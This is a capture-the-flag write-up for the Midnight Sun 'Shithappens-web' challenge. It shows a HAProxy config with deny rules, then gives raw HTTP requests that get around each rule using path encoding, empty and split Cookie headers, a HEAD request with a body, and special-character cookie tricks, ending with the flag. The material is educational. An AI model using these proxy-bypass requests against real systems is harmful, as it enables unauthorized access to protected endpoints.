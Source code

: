 # Shithappens-web

## Description

Sometimes you're just stuck in the middle

settings Service: http://shithappens-01.play.midnightsunctf.se/

Front page:
```

Hello. Get access to /admin. Use the form below to claim a ticket to access it: 

<form action="/admin" method="POST" enctype="multipart/form-data">
	<input type="text" name="username" placeholder="admin">
	<input type="submit">
</form>

Proxy config:

global
  daemon
  log 127.0.0.1 local0 debug

defaults
  log               global
  retries           3
  maxconn           2000
  timeout connect   5s
  timeout client    50s
  timeout server    50s

resolvers docker_resolver
  nameserver dns 127.0.0.11:53

frontend internal_access
  bind 127.0.0.1:8080
  mode http
  use_backend test

frontend internet_access
  bind *:80
  errorfile 403 /etc/haproxy/errorfiles/403custom.http
  http-response set-header Server Server
  http-request deny if METH_POST
  http-request deny if { path_beg /admin }
  http-request deny if { cook(IMPERSONATE) -m found }
  http-request deny if { hdr_len(Cookie) gt 69 }
  mode http
  use_backend test

backend test
  balance roundrobin
  mode http
  server flaskapp app:8282 resolvers docker_resolver resolve-prefer ipv4
```

## Solution

In this task we have to send a request to the `/admin` page in order to retrieve the flag.

We have four filtering rules that deny requests if:
- `/admin` route
- POST method
- IMPERSONATE Cookie
- Cookie header length more than 69 bytes

The proxy server is HAProxy.

1. Bypass filter of URI with encoding:
```
GET /%61dmin HTTP/1.0
Content-Type: multipart/form-data; boundary=---------------------------21837501272512823229266774817
Content-Length: 180

-----------------------------21837501272512823229266774817
Content-Disposition: form-data; name="username"

admin
-----------------------------21837501272512823229266774817--

```

Result:
```
{"result":"Unauthorized, no IMPERSONATE cookie found."}
```

2. Bypass sending IMPERSONAE cookie

The HAProxy function `cook()` checks if a cookie exists in request. But if it's empty, it will not be found for the proxy.

```
GET /%61dmin HTTP/1.0
Content-Type: multipart/form-data; boundary=---------------------------21837501272512823229266774817
Content-Length: 180
Cookie: IMPERSONATE=

-----------------------------21837501272512823229266774817
Content-Disposition: form-data; name="username"

admin
-----------------------------21837501272512823229266774817--

```

Result:
```
{"result":"Unauthorized, no KEY cookie found."}
```

Now if we send `KEY` and `IMPERSONATE` cookies we will get the following result:
```
{"result":"Unauthorized, your cookies are incorrect!"}
```

To get the right cookies we have to send multipart data, but we can't send POST methods.

3. Bypass POST method

Body could be sent with HEAD method:

```
HEAD /%61dmin HTTP/1.0
Content-Type: multipart/form-data; boundary=---------------------------21837501272512823229266774817
Content-Length: 180

-----------------------------21837501272512823229266774817
Content-Disposition: form-data; name="username"

admin
-----------------------------21837501272512823229266774817--

```

Result:
```
HTTP/1.0 200 OK
Set-Cookie: IMPERSONATE=admin; Path=/
Set-Cookie: KEY=0be40039bcd8286eab237f481641b16e5e3ab442e0bc1135f08c143b22dc1efc; Path=/

```

But if we send it, we will be catched with length filter:

4. Bypass Length filter:

We could split in two headers:

```
GET /%61dmin HTTP/1.1
Host: shithappens-01.play.midnightsunctf.se
Cookie: KEY=0be40039bcd8286eab237f481641b16e5e3ab442e0bc1135f08c143b22dc1efc;
Cookie: ;IMPERSONATE=

```

But we can't send value for IMPERSONATE.

5. IMPERSONATE filtering bypass

For figure out we should bruteforce special characters to pass this param to server and bypass proxy's rules:

The solution was to add one of 3 symbols left: `=`,`%0c`,`%0b` , or one of 2 symbols rights: `%0c`, `%0b1`

```
GET /%61dmin HTTP/1.1
Host: shithappens-01.play.midnightsunctf.se
Cookie: KEY=0be40039bcd8286eab237f481641b16e5e3ab442e0bc1135f08c143b22dc1efc;
Cookie: ;=IMPERSONATE=admin

```

The flag:
```
HTTP/1.1 200 OK
Date: Sun, 05 Apr 2020 11:03:30 GMT
Content-Type: application/json
Content-Length: 40
Server: Server

{"result":"midnight{hap_hap_h00r@y!!}"}
```

